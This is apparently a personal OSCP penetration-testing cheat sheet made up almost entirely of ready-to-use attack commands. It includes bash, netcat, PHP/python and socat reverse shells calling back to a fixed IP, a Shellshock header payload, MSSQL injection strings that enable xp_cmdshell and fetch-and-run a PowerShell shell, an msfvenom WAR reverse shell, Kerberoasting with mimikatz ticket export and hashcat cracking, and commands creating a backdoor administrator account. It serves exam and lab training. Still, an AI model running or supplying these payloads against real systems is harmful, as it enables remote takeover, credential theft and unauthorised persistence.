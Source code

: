 ```yaml
---
title: OSCP Cheat Sheet
date: 2021-06-13 06:25:40
updated: 2021-06-14 12:25:40
tags:
- OSCP
- Penetration Test
---
```


# Pentest Cheatsheet

Bash reverse shell

```bash
bash -i >& /dev/tcp/192.168.19.35/8907 0>&1
```

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1"
```

Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
http://localhost:8080/cgi-bin/test.bin | tail
```

python PTY upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

MSSQL enable xp_cmdshell

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

MSSQL reverse shell with one-liner

```sql
exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')"
```

MSSQL enable xp_cmdshell and exec

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')";--
```

MSSQL check for stack query

```sql
'; WAITFOR DELAY '0:0:5'; --
```

nc reverse shell

```bash
nc -e /bin/bash 192.168.119.142 8907
```

PHP reverse shell with python

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");?>
```

PHP reverse shell with python with double quote escaped

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>
```

PHP reverse shell with bash -c

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/\"192.168.119.142\"/443 0>&1'");?>
```

PHP reverse shell with bash (won't work on /bin/sh -> /bin/dash)

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1");'
```

PHP reverse shell with bash -c with double quote escaped

```bash
php -r 'exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1\"");'
```

socat TTY upgrade

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8908
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.142:8908
```

curl multipart/form-data file upload example

```bash
curl -F files=@ciph3r.php http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

Powershell reverse shell

```powershell
powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')
```

Kerberoast

```powershell
# Get Users with SPNs
.\GetUserSPNs.sp1
# Get Service Tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"
# Extract Tickets
mimikatz # kerberos::list /export
# Crack Tickets with tgsrepcrack.py
./tgsrepcrack.py rockyou.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi
# Or Hashcat/JohnTheRipper(much faster)
./kirbi2john.py ../2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi >> ../kerberos.hash
.\hashcat.exe -m 13100 -a 0 F:\kerberos.hash F:\rockyou.txt
```

Powershell Invoke-WebRequest

```powershell
powershell -c Invoke-WebRequest http://192.168.119.142:12345/
```

Java War file reverse shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.142 LPORT=8907 -f war > cipher.war
```

Windows show hidden files

[How-to｜Show Hidden Files Using Command Lines in Windows 10/8/7](https://www.diskpart.com/articles/show-hidden-files-command-line-8523.html)

```powershell
dir /a:h /b /s
```

MSSQL get other table from other databse

```sql
SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```

Windows create remote login user

```powershell
net user /add cipher cipher
net localgroup administrators cipher /add
```

Runas Administrator

```powershell
runas /user:administrator <command>
```

Openssl Generate passwd

```bash
openssl passwd -1 -salt cipher cipher
```